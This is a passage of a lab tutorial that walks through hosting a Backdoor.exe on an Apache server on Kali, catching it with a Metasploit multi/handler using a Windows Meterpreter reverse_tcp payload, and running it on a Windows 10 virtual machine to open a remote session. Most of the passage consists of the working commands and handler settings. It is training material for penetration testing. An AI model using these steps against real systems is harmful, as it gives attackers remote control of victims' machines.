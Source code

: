### 2. Share the Backdoor.exe
Start the Apache services:<br>
`service apache2 start`

_If you didn't have apache2 installed, type: apt-get install apache2_

Copy the Backdoor.exe to the /www/html/share/ folder  which will be visible from the web:<br>
`cp /root/Desktop/Backdoor.exe /var/www/html/share/`

### 3. Set up the Handler
Open a new Terminal window and start the **Metasploit Framework**:<br>
`msfconsole`

To handle exploits launched outside the framework, select the **exploit/multi/handler**:<br>
`use exploit/multi/handler`

Set the reverse TCP payload:<br>
`set payload windows/meterpreter/reverse_tcp`

To view the payload configurations:<br>
`options`

```
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST                      yes       The listen address (an interface may be specified)
LPORT     4444             yes       The listen port

```

Set the `LHOST` to your Kali IP:<br>
`set LHOST 10.0.2.42`

The **LPORT** is correct, as shown above **(4444)**.

To start the handler on the background, type:<br>
`expoit -j -z`

## Download and Execute the Backdoor.exe
Switch to your **Windows 10** virtual machine and launch the **browser**.

Type the URL (based on your Kali IP):<br>
`http://10.0.2.42/share/`

Then, download the **backdoor.exe**

![backdoor-file](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/593a4006d41f589048032b0d33eff4d35d44eb2e/backdoor-win.png)

Double-click on the application and accept the Warnings.

Now Switch back to the Kali.

![meterpreter-backdoor](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/593a4006d41f589048032b0d33eff4d35d44eb2e/backdoor-meterpreter.png)

If everything works, you will find that have a **Meterpreter session** open in the Metasploit terminal.
